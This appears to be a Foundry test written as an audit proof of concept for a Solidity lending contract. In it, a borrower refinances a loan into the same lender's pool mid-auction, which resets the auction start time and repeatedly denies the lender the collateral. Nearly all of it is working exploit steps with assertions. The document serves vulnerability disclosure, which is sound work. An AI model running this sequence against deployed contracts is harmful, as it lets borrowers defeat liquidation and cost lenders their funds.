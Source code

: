 ```solidity
// File: test/Lender.t.sol:LenderTest
// $ forge test --match-test "test_malicious_borrower_restart_auction_via_refinance" -vvv
//
    function test_malicious_borrower_restart_auction_via_refinance() public {
        // Malicious borrower can restart the loan auction using the refinance() function.
        // 1. Lender1 creates the pool with initial 1000 token balance. Borrower borrows 100 token debt.
        // 2. Lender1 kicks off the auction.
        // 3. The borrower maliciously refinance the loan using the same old poolID from the Lender1.
        //    The malicious borrower doesn't need to deposit any token amount.
        // 4. The Lender1 auction is restarted. The malicious borrower can repeat the process
        //    causing the lender to be unable to get the collateral.
        //
        // 1. Lender1 creates the pool with initial 1000 token balance. Borrower borrows 100 token debt.
        //
        test_borrow();
        bytes32 poolIdLender1 = lender.getPoolId(lender1, address(loanToken), address(collateralToken));
        (,,,,uint256 poolBalance,,,,) = lender.pools(poolIdLender1);
        // assert loan debt and pool balance
        assertEq(lender.getLoanDebt(0), 100*10**18);
        assertEq(poolBalance, 900 * 10**18);
        //
        // 2. Lender1 kicks off the auction.
        //
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);
        (,,,,,,,,uint256 auctionStartTime,) = lender.loans(0);
        assertEq(auctionStartTime, block.timestamp);
        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);
        //
        // 3. The borrower maliciously refinance the loan using the same old poolID from the Lender1.
        //    The malicious borrower doesn't need to deposit any token amount.
        //
        vm.startPrank(borrower);
        Refinance memory r = Refinance({
            loanId: 0,
            poolId: poolIdLender1, //Same oldPoolId
            debt: 100 * 10**18,
            collateral: 100 * 10**18
        });
        Refinance[] memory rs = new Refinance[](1);
        rs[0] = r;
        lender.refinance(rs);
        //
        // 4. The Lender1 auction is restarted. The malicious borrower can repeat the process
        //    causing the lender to be unable to get the collateral.
        //
        (,,,,,,,,auctionStartTime,) = lender.loans(0);
        assertEq(auctionStartTime, type(uint256).max); // auction startTime is restarted
        // assert loan debt is still the same
        (,,,,poolBalance,,,,) = lender.pools(poolIdLender1);
        assertEq(lender.getLoanDebt(0), 100*10**18);
    }
```
